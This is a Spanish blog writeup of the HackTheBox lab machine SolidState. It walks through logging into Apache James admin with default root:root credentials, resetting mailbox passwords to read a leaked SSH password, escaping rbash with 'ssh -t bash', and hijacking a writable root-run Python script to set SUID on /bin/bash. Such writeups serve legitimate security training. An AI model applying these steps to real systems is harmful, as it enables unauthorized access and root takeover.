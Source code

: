 ```yaml
---
title: "HackTheBox - SolidState"
layout: post
date: 2022-05-26 18:03
image: /assets/images/SolidState/snake_logo.jpg
headerImage: true
tag:
- htb
- hacking
- writeup
category: blog
description: Writeup de SolidState
---
```


# SolidState

Dificultad: Medium
OS: Linux

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina SolidState.

Es una máquina Linux con una dificultad media.

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando **ping -c 1 {IP}** y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Linux.

![Untitled](../assets/images/SolidState/Untitled.png)

Nmap encuenta 6 puertos abiertos siendo estos el 22, 25, 80, 110, 119, 4555.

![Untitled](../assets/images/SolidState/Untitled%201.png)

Haciendo un escaneo de versiones sobre estos puertos encontramos que utiliza James 2.3.2, lo que más llama la atención es el puerto 4555, James Remote Administration Tool 2.3.2

![Untitled](../assets/images/SolidState/Untitled%202.png)

Buscando exploits encontramos un RCE, y en el código encontramos que los credenciales por defecto son root:root

![Untitled](../assets/images/SolidState/Untitled%203.png)

Y al intentar conectar vemos que las credenciales por defecto funcionan. Con help sacamos los comandos que nos deja ejecutar, siendo listusers y setpassword en las que nos centraremos.

![Untitled](../assets/images/SolidState/Untitled%204.png)

![Untitled](../assets/images/SolidState/Untitled%205.png)

Primero vamos a probar con el usuario de james.

```
setpassword james password
Password for james reset
```

Entramos y no tiene ningún correo, asi que procedemos a ir uno a uno mirando si algún usuario tiene correos.

![Untitled](../assets/images/SolidState/Untitled%206.png)

Rápidamente encontramos que john tiene un correo pidiendo que restrinja al usuario mindy y que la envíe un correo con una contraseña temporal

```text
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

En el correo de mindy encontramos el mensaje con el usuario y contraseña y ahora podemos acceder por ssh a la cuenta de mindy.

```text
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@ SolidState>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by SolidState (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

![Untitled](../assets/images/SolidState/Untitled%207.png)

Nos encontramos que nos da una rbash (restricted shell) y solo podemos usar cat, env y ls. Al tener cat ya podemos leer flag.txt y tener el user.

![Untitled](../assets/images/SolidState/Untitled%208.png)

## Escalada de privilegios

No es problema tener una rbash ya que es muy fácil hacer bypass de la rbash, ya que cuando entramos en el ssh podemos especificar un comando, por lo que usando el parámetro -t y bash entramos en una bash.

![Untitled](../assets/images/SolidState/Untitled%209.png)

Para encontrar qué procesos se ejecutan a la larga, voy usar el comando **ps -eo command** que te saca todos los comandos que se van ejecutando y así compararlo con uno nuevo para ver que se ejecuta a la larga.

```bash
#!/bin/bash

last_process=$(ps -eo command)

while true; do
        new_process=$(ps -eo command)
        diff <(echo "$last_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
        last_process=$(ps -eo command)
done
```

Encontramos que cada x tiempo se ejecuta tmp.py que está en /opt asi que vamos a mirarlo.

![Untitled](../assets/images/SolidState/Untitled%2010.png)

Encontramos que pertenece al root y que puedo escribir en el, asi que ahora lo tenemos fácil.

![Untitled](../assets/images/SolidState/Untitled%2011.png)

![Untitled](../assets/images/SolidState/Untitled%2012.png)

Modifico el .py para otorgar privilegios SUID a la bash. Los privilegios SUID dan privilegios de ejecución del propietario, en este caso root.

```python
#!/usr/bin/env python

import os

os.system("chmod u+s /bin/bash")
```

Aquí se puede ver como se asigna ese bit s, por lo que ya tengo SUID.

![Untitled](../assets/images/SolidState/Untitled%2013.png)

Y ahora abriendo otra bash, tenemos privilegios de root y ende, la flag.

![Untitled](../assets/images/SolidState/Untitled%2014.png)